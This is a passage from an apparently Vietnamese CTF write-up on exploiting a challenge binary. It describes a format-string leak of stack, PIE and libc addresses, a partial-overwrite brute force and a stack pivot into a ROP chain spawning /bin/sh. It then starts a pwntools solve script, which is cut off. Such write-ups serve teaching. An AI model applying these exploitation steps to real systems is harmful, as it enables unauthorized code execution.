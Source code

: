 Nhưng mà ta lại nhớ đến option 1 **edit text** cho phép ta ghi tổng cộng 264 bytes vào đây, cho nên ta có thể partial overwrite địa chỉ tại **<text+256>** 2 bytes đầu. Vì ta đã biết PIE đã bật nên địa chỉ sẽ luôn random ngoài trừ 3 nibbles cuối. Cho nên tại nibble thứ 4 của địa chỉ ta phải bruteforce với xác suất $1 \over 16$ để làm sao cho địa chỉ tại **<text+256>** sẽ trỏ đến chính địa chỉ chứa input của ta. Xác suất khá là cao đấy.
Đồng thời ta cũng thấy được lỗi format strings trong hàm printf nên ta sẽ lợi dụng nó để leak ra được địa chỉ của stack, địa chỉ của hàm main và quan trọng nhất là địa chỉ của libc.

![](https://hackmd.io/_uploads/rku75NTgp.png)

Ta thấy được địa chỉ của stack nằm tại offset 6, địa chỉ của hàm main tại offset 7 và địa chỉ của libc tại offset 45.
Sau khi thành công thì mình sẽ tiến hành dùng lỗi format string để tiến hành arbitrary write lên stack.

![](https://hackmd.io/_uploads/HJGRREaxp.png)

Ở đây mình thấy sau khi thực hiện lệnh printf thì hàm sẽ tiến hành pop rbp và ret (tương đương với pop rip). Cho nên mình có ý tưởng là sử dụng kỹ thuật stack pivot, cụ thể là:

1. Ta sẽ tiến hành ghi đè rbp của hàm là địa chỉ trỏ đến input của ta trên stack (mà bằng cách edit text + save text)
2. Ta sẽ ghi đè rip của ta là địa chỉ chứa gadget leave; ret có trong hàm main để stack pivot
3. Và cuối cùng là ta sẽ tiến hành build rop chain spam shell ngay trên chính input của ta luôn.
   Còn về ROPchain thì vì ta đã leak được libc rồi nên mình có thể biết được địa chỉ của hàm system, string "/bin/sh" và gadgets pop rdi; ret.

- Answer: Đây là script giải bài của mình:

```python!=
from pwn import *
context.binary = "./chall"
#p = process()
script = """
b*show_error+8
c
"""
#gdb.attach(p,script)
#p = remote("45.153.243.57",13337)
def bruteforce(payload: bytes):
    status = ""
    msg = ""
    #gdb.attach(p,script)
    #a = p.recv()
    p.sendline(b'1')
    time.sleep(0.2)
    b =p.recv()
    p.send(payload)
    time.sleep(0.2)
    c = p.recv()
    #print(c)
    (p.recv())
    p.sendline(b'4')
    time.sleep(0.2)
    try:
        msg = p.recv()
        print(msg)
        if b'AAAA' in msg: status = "success"
    except Exception:
        status = 'fail'
    return status




while True:
```